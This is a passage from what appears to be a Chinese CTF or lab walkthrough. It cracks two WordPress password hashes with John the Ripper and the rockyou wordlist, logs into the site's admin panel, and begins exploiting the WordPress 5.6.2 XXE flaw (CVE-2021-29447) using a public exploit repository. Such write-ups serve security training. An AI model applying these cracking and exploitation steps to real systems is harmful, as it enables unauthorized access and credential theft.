 
获取了网站用户密码的hash值，现在爆破一下
```
admin $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/58cc786ab99449d5bc0ea264d69d3489.png)

```
john -w=/usr/share/wordlists/rockyou.txt hash
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/60c83821f498428bb50bc7bd2da161e2.png)


只爆破出了一个密码，我尝试登录ftp和ssh发现都不行，只能登录网站后台


![在这里插入图片描述](https://img-blog.csdnimg.cn/b704dc5b34b34881932065ab6eef6710.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/480555af2a4e421b9093223c6ec005a4.png)

通过前面对wordpress 5.6.2版本的漏洞搜索，发现了一个XXE的漏洞
```
https://www.acunetix.com/vulnerabilities/web/wordpress-5-6-x-multiple-vulnerabilities-5-6-5-6-2/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a664e3e41f5c46e588afe465fe9a9b62.png)
安全公司 SonarSource 的研究人员在 WordPress 媒体库中发现了一个 XML 外部实体注入 (XXE) 安全漏洞。仅当此 CMS 在 PHP 8 中运行 并且 攻击用户具有上传媒体文件的权限时，才能利用该漏洞
# 获取用户shell


利用过程参考这篇github
```
https://github.com/motikan2010/CVE-2021-29447
```
下载这些文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/e60142d583a442a3b8d207382d04f9dd.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/3cfadbb1ccef4059a736d6c89aac0c5f.png)

根据文章操作

```
make up-wp
php -S 0.0.0.0:8001
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/5c83b8997c64457eb24fa524881f43e4.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/736be38d70ae41ab9d29212fd2645431.png)
